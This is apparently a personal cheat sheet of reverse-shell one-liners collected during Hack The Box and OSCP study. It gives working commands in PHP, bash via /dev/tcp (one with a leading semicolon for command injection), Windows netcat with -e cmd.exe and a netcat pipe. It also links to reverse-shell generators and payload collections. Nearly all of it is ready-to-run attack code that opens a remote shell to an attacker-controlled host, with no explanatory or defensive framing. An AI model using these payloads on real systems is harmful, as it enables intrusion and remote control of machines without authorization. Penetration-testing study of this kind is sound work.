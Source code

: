 ## Reverse shells that actually worked during my travels

## Php

```
php -r '$sock=fsockopen("10.10.14.31",4321);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Bash

``` (from Script Kiddie, htb)
;/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.176/4444 0>&1' #
```


## Bash2

```(From OSCP Study, this takes no " or ')
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```


## Reverse Shell Generator:

https://github.com/mthbernardes/rsg

## Reverse shells:

https://github.com/jbarcia/Web-Shells/tree/master/laudanum

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md


## Netcat on windows:

```
nc.exe -nv 10.10.14.31 4444 -e cmd.exe

```

## Netcat without an "-e" or "-c" option

```
/bin/sh | nc [IPADDR] [PORT]
```